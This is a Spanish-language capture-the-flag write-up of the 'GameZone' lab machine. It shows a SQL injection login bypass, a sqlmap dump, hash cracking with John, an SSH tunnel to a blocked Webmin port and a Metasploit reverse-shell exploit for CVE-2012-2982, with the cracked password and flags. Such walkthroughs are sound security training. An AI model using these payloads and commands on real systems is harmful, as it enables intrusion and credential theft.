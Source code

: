 # GameZone - rmartinez 18/01/2022

IP: 10.10.221.1

## 1. Deploy the vulnerable machine

- What is the name of the large cartoon avatar holding a sniper on the forum?

```
Buscamos en google por imagen y vemos que es el prota de Hitman: Sniper ->

Agent 47
```

## 2. Access with SQL injection

En el home de la página vemos un formulario de login que al parecer es vulnerable
a SQLi. Se nos instruye de usar como usuario 

```
' or 1=1 -- -
```

para pasar la validación de la query y pasar a la siguiente página
```
portal.php
```
En esta página tenemos un buscador que al poner una comilla vemos que es claramente vulnerable a SQL injection:
```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%'' at line 1
```
Abrimos la página con Burp y nos guardamos la request con Burp para pasársela a sqlmap:
```
sqlmap -r portal_req.txt -dbms=mysql --dump
```
Vemos que esto nos genera dos tablas, users y post. Nos traemos los .csv que ha generado y respondemos el resto de preguntas.

# 3. Cracking passwords with John

Vamos a crackear la password del usuario agent47 usando John. Para ello nos llevamos el hash que hemos dumpeado e identificamos de que tipo es (https://tunnelsup.com/hash-analyzer/). Vemos que es un SHA-256 por lo que usaremos John con la lista rockyou.txt:
```
touch hash.txt
echo ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 > hash.txt
/opt/john/john hash.txt --wordlist=/opt/wordlists/rockyou.txt --format=raw-sha256
```
Nos saca la contraseña:
```
videogamer124
```
Nos conectamos por SSH a la máquina y sacamos la flag del user:
```
agent47@gamezone:~$ cat user.txt 
649ac17b1480ac13ef1e4fa579dac95c
```

## 4. Exposing services with reverse SSH tunnels

Se nos pide que exposeemos un puerto 10000 que está bloqueado por una regla de iptables, para ello haremos un:

```
ss -tulpn
```
y vemos que está exposeado pero no tenemos acceso, pero si hacemos un curl desde dentro sí tenemos acceso, por lo que exposearemos mediante un tunel ssh el servicio:

```
ssh -L 10000:localhost:10000 agent47@10.10.221.1
```
y ya tenemos acceso, vemos que es un Webmin 1.580

## 5. Privilege escalation with Metasploit

Buscamos en exploit-db un exploit para Webmin 1.580 y vemos que es vulnerable a la CVE-2012-2982. Vamos a metasploit y buscamos un exploit para dicha CVE, usaremos
```
unix/webapp/webmin_show_cgi_exec
```
Usaremos como payload cmd/unix/reverse. Rellenamos parámetros, runeamos y gg pwned.

```
whoami
root
cd /root
ls
root.txt
cat root.txt
a4b945830144bdd71908d12d902adeee
```